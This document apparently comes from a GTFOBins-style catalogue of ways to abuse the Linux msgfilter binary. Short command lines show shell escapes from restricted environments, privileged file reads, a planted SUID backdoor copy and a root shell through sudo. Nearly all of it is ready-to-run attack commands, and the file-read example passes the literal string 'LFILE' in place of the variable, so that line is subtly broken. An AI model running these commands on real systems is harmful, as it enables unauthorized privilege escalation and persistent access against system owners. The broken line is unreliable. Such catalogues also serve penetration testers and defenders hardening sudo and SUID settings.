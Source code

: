 # GTFOBin: msgfilter

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

Any text file will do as the input (use `-i`). `kill` is needed to spawn the shell only once.

```
echo x | msgfilter -P /bin/sh -c '/bin/sh 0<&2 1>&2; kill $PPID'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file is parsed and displayed as a Java `.properties` file, so this may not be suitable to read arbitrary binary data. `/bin/cat` can be replaced with any other filter program.

```
LFILE=file_to_read
msgfilter -P -i "LFILE" /bin/cat
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Any text file will do as the input (use `-i`). `kill` is needed to spawn the shell only once.

```
sudo install -m =xs $(which msgfilter) .

echo x | ./msgfilter -P /bin/sh -p -c '/bin/sh -p 0<&2 1>&2; kill $PPID'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Any text file will do as the input (use `-i`). `kill` is needed to spawn the shell only once.

```
echo x | sudo msgfilter -P /bin/sh -c '/bin/sh 0<&2 1>&2; kill $PPID'
```